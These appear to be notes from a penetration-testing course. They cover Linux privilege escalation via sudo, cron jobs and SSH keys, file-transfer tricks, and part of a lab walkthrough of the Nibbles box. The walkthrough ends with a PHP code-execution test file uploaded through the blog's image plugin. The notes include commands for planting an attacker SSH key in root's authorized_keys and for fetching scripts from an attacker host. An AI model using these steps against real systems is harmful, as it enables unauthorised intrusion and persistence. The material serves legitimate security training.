Another critical aspect to look for after gaining access to a server is the privileges available to the user we have access to. Suppose we are allowed to run specific commands as root (or as another user). In that case, we may be able to escalate our privileges to root/system users or gain access as a different user. Below are some common ways to exploit certain user privileges:

    Sudo
    SUID
    Windows Token Privileges

The sudo command in Linux allows a user to execute commands as a different user. It is usually used to allow lower privileged users to execute commands as root without giving them access to the root user. This is generally done as specific commands can only be run as root 'like tcpdump' or allow the user to access certain root-only directories. We can check what sudo privileges we have with the sudo -l command:

```
sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```

The above output says that we can run all commands with sudo, which gives us complete access, and we can use the su command with sudo to switch to the root user:

```
sudo su -

[sudo] password for user1:
whoami
root
```

The above command requires a password to run any commands with sudo. There are certain occasions where we may be allowed to execute certain applications, or all applications, without having to provide a password:

```
sudo -l

    (user : user) NOPASSWD: /bin/echo
```

The NOPASSWD entry shows that the /bin/echo command can be executed without a password. This would be useful if we gained access to the server through a vulnerability and did not have the user's password. As it says user, we can run sudo as that user and not as root. To do so, we can specify the user with -u user:

```
sudo -u user /bin/echo Hello World!

    Hello World!
```

Once we find a particular application we can run with sudo, we can look for ways to exploit it to get a shell as the root user. GTFOBins contains a list of commands and how they can be exploited through sudo. We can search for the application we have sudo privilege over, and if it exists, it may tell us the exact command we should execute to gain root access using the sudo privilege we have.

LOLBAS also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

https://gtfobins.github.io/

https://lolbas-project.github.io/#

In both Linux and Windows, there are methods to have scripts run at specific intervals to carry out a task. Some examples are having an anti-virus scan running every hour or a backup script that runs every 30 minutes. There are usually two ways to take advantage of scheduled tasks (Windows) or cron jobs (Linux) to escalate our privileges:

    Add new scheduled tasks/cron jobs
    Trick them to execute a malicious software

The easiest way is to check if we are allowed to add new scheduled tasks. In Linux, a common form of maintaining scheduled tasks is through Cron Jobs. There are specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them. These include:

    /etc/crontab
    /etc/cron.d
    /var/spool/cron/crontabs/root

If we can write to a directory called by a cron job, we can write a bash script with a reverse shell command, which should send us a reverse shell when executed.

Next, we can look for files we can read and see if they contain any exposed credentials. This is very common with configuration files, log files, and user history files (bash_history in Linux and PSReadLine in Windows). The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us, as below:

```
...SNIP...
[+] Searching passwords in config PHP files
[+] Finding passwords inside logs (limit 70)
...SNIP...
/var/www/html/config.php: $conn = new mysqli(localhost, 'db_user', 'password123');
```

As we can see, the database password 'password123' is exposed, which would allow us to log in to the local mysql databases and look for interesting information. We may also check for Password Reuse, as the system user may have used their password for the databases, which may allow us to use the same password to switch to that user, as follows:

```
su -

Password: password123
whoami

root
```

We may also use the user credentials to ssh into the server as that user.
SSH Keys

Finally, let us discuss SSH keys. If we have read access over the .ssh directory for a specific user, we may read their private ssh keys found in /home/user/.ssh/id_rsa or /root/.ssh/id_rsa, and use it to log in to the server. If we can read the /root/.ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it:

```
vim id_rsa
chmod 600 id_rsa
ssh root@10.10.10.10 -i id_rsa

root@10.10.10.10#
```
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.

If we find ourselves with write access to a users/.ssh/ directory, we can place our public key in the user's ssh directory at /home/user/.ssh/authorized_keys. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with ssh-keygen and the -f flag to specify the output file:

```
ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine. Let us copy key.pub, then on the remote machine, we will add it into /root/.ssh/authorized_keys:

`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

Now, the remote server should allow us to log in as that user by using our private key:

`ssh root@10.10.10.10 -i key`

As we can see, we can now ssh in as the user root. The Linux Privilege Escalation and the Windows Privilege Escalation modules go into more details on how to use each of these methods for Privilege Escalation, and many others as well.

--------------------

The questions in this section are:
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'. 

```
sudo -l
Matching Defaults entries for user1 on ng-1101645-gettingstartedprivesc-dty5q-84c85699dc-jdd6s:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on ng-1101645-gettingstartedprivesc-dty5q-84c85699dc-jdd6s:
    (user2 : user2) NOPASSWD: /bin/bash


Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'. 
```

sudo -u user2 /bin/bash

Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'. 

This was just copying the id_rsa file from the root directory

# Transferring Files

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```
cd /tmp
python3 -m http.server 8000
```


Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:


```
wget http://10.10.14.1:8000/linenum.sh
```

Note that we used our IP 10.10.14.1 and the port our Python server runs on 8000. If the remote server does not have wget, we can use cURL to download the file:

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Note that we used the -o flag to specify the output file name.


Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after scp, and the remote directory will be saved to after the :.

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:

```
base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:

```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

To validate the format of a file, we can run the file command on it:

```
file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:

```
md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now, we can go to the remote server and run the same command on the file we transferred:

```
md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files. You can check out the File Transfers module for a more detailed study on transferring files.

# Nibbles - Enumeration

There are 201 standalone boxes of various operating systems and difficulty levels available to us on the HTB platform with VIP membership when writing this. This membership includes an official HTB created walkthrough for each retired machine. We can also find blog and video walkthroughs for most boxes with a quick Google search.

For our purposes, let us walk through the box Nibbles, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

Let us first look at some machine statistics:
Machine Name 	Nibbles
Creator 	mrb3n
Operating System 	Linux
Difficulty 	Easy
User Path 	Web
Privilege Escalation 	World-writable File / Sudoers Misconfiguration
Ippsec Video 	https://www.youtube.com/watch?v=s_0GcRGv6Ds
Walkthrough 	https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html

Our first step when approaching any machine is to perform some basic enumeration. First, let us start with what we do know about the target. We already know the target's IP address, that it is Linux, and has a web-related attack vector. We call this a grey-box approach because we have some information about the target. On the HTB platform, the 20 "active" weekly-release machines are all approached from a black-box perspective. Users are given the IP address and operating system type beforehand but no additional information about the target to formulate their attacks. This is why the thorough enumeration is critical and is often an iterative process.

Before we continue, let us take a quick step back and look at the various approaches to penetration testing actions. There are three main types, black-box, grey-box, and white-box, and each differs in the goal and approach.

Engagement 	Description
Black-Box 	Low level to no knowledge of a target. The penetration tester must perform in-depth reconnaissance to learn about the target. This may be an external penetration test where the tester is given only the company name and no further information such as target IP addresses, or an internal penetration test where the tester either has to bypass controls to gain initial access to the network or can connect to the internal network but has no information about internal networks/hosts. This type of penetration test most simulates an actual attack but is not as comprehensive as other assessment types and could leave misconfigurations/vulnerabilities undiscovered.
Grey-Box 	In a grey-box test, the tester is given a certain amount of information in advance. This may be a list of in-scope IP addresses/ranges, low-level credentials to a web application or Active Directory, or some application/network diagrams. This type of penetration test can simulate a malicious insider or see what an attacker can do with a low level of access. In this scenario, the tester will typically spend less time on reconnaissance and more time looking for misconfigurations and attempting exploitation.
White-Box 	In this type of test, the tester is given complete access. In a web application test, they may be provided with administrator-level credentials, access to the source code, build diagrams, etc., to look for logic vulnerabilities and other difficult-to-discover flaws. In a network test, they may be given administrator-level credentials to dig into Active Directory or other systems for misconfigurations that may otherwise be missed. This assessment type is highly comprehensive as the tester will have access to both sides of a target and perform a comprehensive analysis.

Let us begin with a quick nmap scan to look for open ports using the command nmap -sV --open -oA nibbles_initial_scan <ip address>. This will run a service enumeration (-sV) scan against the default top 1,000 ports and only return open ports (--open). We can check which ports nmap scans for a given scan type by running a scan with no target specified, using the command nmap -v -oG -. Here we will output the greppable format to stdout with -oG - and -v for verbose output. Since no target is specified, the scan will fail but will show the ports scanned.

```
nmap -v -oG -

# Nmap 7.80 scan initiated Wed Dec 16 23:22:26 2020 as: nmap -v -oG -

# Ports scanned: TCP(1000;1,3-4,6-7,9,13,17,19-26,30,32-33,37,42-43,49,53,70,79-85,88-90,99-100,106,109-111,113,119,125,135,139,143-144,146,161,163,179,199,211-212,222,254-256,259,264,280,301,306,311,340,366,389,406-407,416-417,425,427,443-445,458,464-465,481,497,500,512-515,524,541,543-545,548,554-555,563,587,593,616-617,625,631,636,646,648,666-668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800-801,808,843,873,880,888,898,900-903,911-912,981,987,990,992-993,995,999-1002,1007,1009-1011,1021-1100,1102,1104-1108,1110-1114,1117,1119,1121-1124,1126,1130-1132,1137-1138,1141,1145,1147-1149,1151-1152,1154,1163-1166,1169,1174-1175,1183,1185-1187,1192,1198-1199,1201,1213,1216-1218,1233-1234,1236,1244,1247-1248,1259,1271-1272,1277,1287,1296,1300-1301,1309-1311,1322,1328,1334,1352,1417,1433-1434,1443,1455,1461,1494,1500-1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687-1688,1700,1717-1721,1723,1755,1761,1782-1783,1801,1805,1812,1839-1840,1862-1864,1875,1900,1914,1935,1947,1971-1972,1974,1984,1998-2010,2013,2020-2022,2030,2033-2035,2038,2040-2043,2045-2049,2065,2068,2099-2100,2103,2105-2107,2111,2119,2121,2126,2135,2144,2160-2161,2170,2179,2190-2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381-2383,2393-2394,2399,2401,2492,2500,2522,2525,2557,2601-2602,2604-2605,2607-2608,2638,2701-2702,2710,2717-2718,2725,2800,2809,2811,2869,2875,2909-2910,2920,2967-2968,2998,3000-3001,3003,3005-3007,3011,3013,3017,3030-3031,3052,3071,3077,3128,3168,3211,3221,3260-3261,3268-3269,3283,3300-3301,3306,3322-3325,3333,3351,3367,3369-3372,3389-3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689-3690,3703,3737,3766,3784,3800-3801,3809,3814,3826-3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000-4006,4045,4111,4125-4126,4129,4224,4242,4279,4321,4343,4443-4446,4449,4550,4567,4662,4848,4899-4900,4998,5000-5004,5009,5030,5033,5050-5051,5054,5060-5061,5080,5087,5100-5102,5120,5190,5200,5214,5221-5222,5225-5226,5269,5280,5298,5357,5405,5414,5431-5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678-5679,5718,5730,5800-5802,5810-5811,5815,5822,5825,5850,5859,5862,5877,5900-5904,5906-5907,5910-5911,5915,5922,5925,5950,5952,5959-5963,5987-5989,5998-6007,6009,6025,6059,6100-6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547,6565-6567,6580,6646,6666-6669,6689,6692,6699,6779,6788-6789,6792,6839,6881,6901,6969,7000-7002,7004,7007,7019,7025,7070,7100,7103,7106,7200-7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777-7778,7800,7911,7920-7921,7937-7938,7999-8002,8007-8011,8021-8022,8031,8042,8045,8080-8090,8093,8099-8100,8180-8181,8192-8194,8200,8222,8254,8290-8292,8300,8333,8383,8400,8402,8443,8500,8600,8649,8651-8652,8654,8701,8800,8873,8888,8899,8994,9000-9003,9009-9011,9040,9050,9071,9080-9081,9090-9091,9099-9103,9110-9111,9200,9207,9220,9290,9415,9418,9485,9500,9502-9503,9535,9575,9593-9595,9618,9666,9876-9878,9898,9900,9917,9929,9943-9944,9968,9998-10004,10009-10010,10012,10024-10025,10082,10180,10215,10243,10566,10616-10617,10621,10626,10628-10629,10778,11110-11111,11967,12000,12174,12265,12345,13456,13722,13782-13783,14000,14238,14441-14442,15000,15002-15004,15660,15742,16000-16001,16012,16016,16018,16080,16113,16992-16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005,20031,20221-20222,20828,21571,22939,23502,24444,24800,25734-25735,26214,27000,27352-27353,27355-27356,27715,28201,30000,30718,30951,31038,31337,32768-32785,33354,33899,34571-34573,35500,38292,40193,40911,41511,42510,44176,44442-44443,44501,45100,48080,49152-49161,49163,49165,49167,49175-49176,49400,49999-50003,50006,50300,50389,50500,50636,50800,51103,51493,52673,52822,52848,52869,54045,54328,55055-55056,55555,55600,56737-56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389) UDP(0;) SCTP(0;) PROTOCOLS(0;)

WARNING: No targets were specified, so 0 hosts scanned.

# Nmap done at Wed Dec 16 23:22:26 2020 -- 0 IP addresses (0 hosts up) scanned in 0.04 seconds
```

Finally, we will output all scan formats using -oA. This includes XML output, greppable output, and text output that may be useful to us later. It is essential to get in the habit of taking extensive notes and saving all console output early on. The better we get at this while practicing, the more second nature it will become when on real-world engagements. Proper notetaking is critical for us as penetration testers and will significantly speed up the reporting process and ensure no evidence is lost. It is also essential to keep detailed time-stamped logs of scanning and exploitation attempts in an outage or incident in which the client needs information about our activities.


```
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 23:18 EST

Nmap scan report for 10.129.42.190
Host is up (0.11s latency).
Not shown: 991 closed ports, 7 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd <REDACTED> ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```

From the initial scan output, we can see that the host is likely Ubuntu Linux and exposes an Apache web server on port 80 and an OpenSSH server on port 22. SSH, or Secure Shell, is a protocol typically used for remote access to Linux/Unix hosts. SSH can also be used to access Windows host and is now native to Windows 10 since version 1809. We can also see that all three types of scan output were created in our working directory.


ls

nibbles_initial_scan.gnmap  nibbles_initial_scan.nmap  nibbles_initial_scan.xml

Before we start poking around at the open ports, we can run a full TCP port scan using the command `nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190.` This will check for any services running on non-standard ports that our initial scan may have missed. Since this scans all 65,535 TCP ports, it can take a long time to finish depending on the network. We can leave this running in the background and move on with our enumeration. Using nc to do some banner grabbing confirms what nmap told us; the target is running an Apache web server and an OpenSSH server.


```
nc -nv 10.129.42.190 22

(UNKNOWN) [10.129.42.190] 22 (ssh) open
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```

nc tells us that port 80 runs an HTTP (web) server but does not show the banner.

```
nc -nv 10.129.42.190 80

(UNKNOWN) [10.129.42.190] 80 (http) open
```

Checking our other terminal window, we can see that the full port scan (-p-) has finished and has not found any additional ports. Let's do perform an nmap script scan using the -sC flag. This flag uses the default scripts, which are listed here. These scripts can be intrusive, so it is always important to understand exactly how our tools work. We run the command nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190. Since we already know which ports are open, we can save time and limit unnecessary scanner traffic by specifying the target ports with -p.

```
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 23:39 EST
Nmap scan report for 10.129.42.190
Host is up (0.11s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).

Nmap done: 1 IP address (1 host up) scanned in 4.42 seconds
```

The script scan did not give us anything handy. Let us round out our nmap enumeration using the http-enum script, which can be used to enumerate common web application directories. This scan also did not uncover anything useful.

```
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 23:41 EST
Nmap scan report for 10.129.42.190
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd <REDACTED> ((Ubuntu))
|_http-server-header: Apache/<REDACTED> (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.23 seconds
```

------------------
Question in this section:
Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX) 

`nmap -sV -sC -Pn 10.129.10.160`

We can use whatweb to try to identify the web application in use.

```
whatweb 10.129.42.190

http://10.129.42.190 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190]
```

This tool does not identify any standard web technologies in use. Browsing to the target in Firefox shows us a simple "Hello world!" message.

Checking the page source reveals an interesting comment.

```
curl http://10.129.42.190

<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

The HTML comment mentions a directory named nibbleblog. Let us check this with whatweb.

```
whatweb http://10.129.42.190/nibbleblog

http://10.129.42.190/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], RedirectLocation[http://10.129.42.190/nibbleblog/], Title[301 Moved Permanently]
http://10.129.42.190/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]

```

Now we are starting to get a better picture of things. We can see some of the technologies in use such as HTML5, jQuery, and PHP. We can also see that the site is running Nibbleblog, which is a free blogging engine built using PHP.

Browsing to the /nibbleblog directory in Firefox, we do not see anything exciting on the main page.

image

A quick Google search for "nibbleblog exploit" yields this Nibblblog File Upload Vulnerability. The flaw allows an authenticated attacker to upload and execute arbitrary PHP code on the underlying web server. The Metasploit module in question works for version 4.0.3. We do not know the exact version of Nibbleblog in use yet, but it is a good bet that it is vulnerable to this. If we look at the source code of the Metasploit module, we can see that the exploit uses user-supplied credentials to authenticate the admin portal at /admin.php.

Let us use Gobuster to be thorough and check for any other accessible pages/directories.

```
gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================

[+] Url:            http://10.129.42.190/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/17 00:10:47 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2020/12/17 00:11:38 Finished
===============================================================
```

Gobuster finishes very quickly and confirms the presence of the admin.php page. We can check the README page for interesting information, such as the version number.

```
curl http://10.129.42.190/nibbleblog/README

====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

===== Social =====

* Twitter: http://twitter.com/nibbleblog
* Facebook: http://www.facebook.com/nibbleblog
* Google+: http://google.com/+nibbleblog

===== System Requirements =====

* PHP v5.2 or higher
* PHP module - DOM
* PHP module - SimpleXML
* PHP module - GD
* Directory “content” writable by Apache/PHP
```

So we validate that version 4.0.3 is in use, confirming that this version is likely vulnerable to the Metasploit module (though this could be an old README page). Nothing else interesting pops out at us. Let us check out the admin portal login page.

Now, to use the exploit mentioned above, we will need valid admin credentials. We can try some authorization bypass techniques and common credential pairs manually, such as admin:admin and admin:password, to no avail. There is a reset password function, but we receive an e-mail error. Also, too many login attempts too quickly trigger a lockout with the message Nibbleblog security error - Blacklist protection.

Let us go back to our directory brute-forcing results. The 200 status codes show pages/directories that are directly accessible. The 403 status codes in the output indicate that access to these resources is forbidden. Finally, the 301 is a permanent redirect. Let us explore each of these. Browsing to nibbleblog/themes/. We can see that directory listing is enabled on the web application. Maybe we can find something interesting while poking around?

Browsing to nibbleblog/content shows some interesting subdirectories public, private, and tmp. Digging around for a while, we find a users.xml file which at least seems to confirm the username is indeed admin. It also shows blacklisted IP addresses. We can request this file with cURL and prettify the XML output using xmllint.

```
curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">2</session_fail_count>
    <session_date type="integer">1608182184</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
  <blacklist type="string" ip="10.10.14.2">
    <date type="integer">1608182171</date>
    <fail_count type="integer">5</fail_count>
  </blacklist>
</users>
```

At this point, we have a valid username but no password. Searches of Nibbleblog related documentation show that the password is set during installation, and there is no known default password. Up to this point, have the following pieces of the puzzle:

    A Nibbleblog install potentially vulnerable to an authenticated file upload vulnerability

    An admin portal at nibbleblog/admin.php

    Directory listing which confirmed that admin is a valid username

    Login brute-forcing protection blacklists our IP address after too many invalid login attempts. This takes login brute-forcing with a tool such as Hydra off the table


There are no other ports open, and we did not find any other directories. Which we can confirm by performing additional directory brute-forcing against the root of the web application

```
gobuster dir -u http://10.129.42.190/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.42.190/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/17 00:36:55 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/12/17 00:37:46 Finished
===============================================================
```
Taking another look through all of the exposed directories, we find a config.xml file.

```
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -

<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<config>
  <name type="string">Nibbles</name>
  <slogan type="string">Yum yum</slogan>
  <footer type="string">Powered by Nibbleblog</footer>
  <advanced_post_options type="integer">0</advanced_post_options>
  <url type="string">http://10.129.42.190/nibbleblog/</url>
  <path type="string">/nibbleblog/</path>
  <items_rss type="integer">4</items_rss>
  <items_page type="integer">6</items_page>
  <language type="string">en_US</language>
  <timezone type="string">UTC</timezone>
  <timestamp_format type="string">%d %B, %Y</timestamp_format>
  <locale type="string">en_US</locale>
  <img_resize type="integer">1</img_resize>
  <img_resize_width type="integer">1000</img_resize_width>
  <img_resize_height type="integer">600</img_resize_height>
  <img_resize_quality type="integer">100</img_resize_quality>
  <img_resize_option type="string">auto</img_resize_option>
  <img_thumbnail type="integer">1</img_thumbnail>
  <img_thumbnail_width type="integer">190</img_thumbnail_width>
  <img_thumbnail_height type="integer">190</img_thumbnail_height>
  <img_thumbnail_quality type="integer">100</img_thumbnail_quality>
  <img_thumbnail_option type="string">landscape</img_thumbnail_option>
  <theme type="string">simpler</theme>
  <notification_comments type="integer">1</notification_comments>
  <notification_session_fail type="integer">0</notification_session_fail>
  <notification_session_start type="integer">0</notification_session_start>
  <notification_email_to type="string">admin@nibbles.com</notification_email_to>
  <notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
  <seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
  <seo_site_description type="string"/>
  <seo_keywords type="string"/>
  <seo_robots type="string"/>
  <seo_google_code type="string"/>
  <seo_bing_code type="string"/>
  <seo_author type="string"/>
  <friendly_urls type="integer">0</friendly_urls>
  <default_homepage type="integer">0</default_homepage>
</config>
```

Checking it, hoping for passwords proofs fruitless, but we do see two mentions of nibbles in the site title as well as the notification e-mail address. This is also the name of the box. Could this be the admin password?

When performing password cracking offline with a tool such as Hashcat or attempting to guess a password, it is important to consider all of the information in front of us. It is not uncommon to successfully crack a password hash (such as a company's wireless network passphrase) using a wordlist generated by crawling their website using a tool such as CeWL.

This shows us how crucial thorough enumeration is. Let us recap what we have found so far:

    We started with a simple nmap scan showing two open ports

    Discovered an instance of Nibbleblog

    Analyzed the technologies in use using whatweb

    Found the admin login portal page at admin.php

    Discovered that directory listing is enabled and browsed several directories

    Confirmed that admin was the valid username

    Found out the hard way that IP blacklisting is enabled to prevent brute-force login attempts

    Uncovered clues that led us to a valid admin password of nibbles

This proves that we need a clear, repeatable process that we will use time and time again, no matter if we are attacking a single box on HTB, performing a web application penetration test for a client, or attacking a large Active Directory environment. Keep in mind that iterative enumeration, along with detailed notetaking, is one of the keys to success in this field. As you progress in your career, you will often marvel at how the initial scope of a penetration test seemed extremely small and "boring," yet once you dig in and perform rounds and rounds of enumeration and peel back the layers, you may find an exposed service on a high port or some forgotten page or directory that can lead to sensitive data exposure or even a foothold.

Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a Metasploit module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:

Publish 	making a new post, video post, quote post, or new page. It could be interesting.
Comments 	shows no published comments
Manage 	Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.
Settings 	Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.
Themes 	This Allows us to install a new theme from a pre-selected list.
Plugins 	Allows us to configure, install, or uninstall plugins. The My image plugin allows us to upload an image file. Could this be abused to upload PHP code potentially?

Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

Let us attempt to use this plugin to upload a snippet of PHP code instead of an image. The following snippet can be used to test for code execution.

``` php
<?php system('id'); ?>
```

Save this code to a file and then click on the Browse button and upload it.

We get a bunch of errors, but it seems like the file may have uploaded.

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

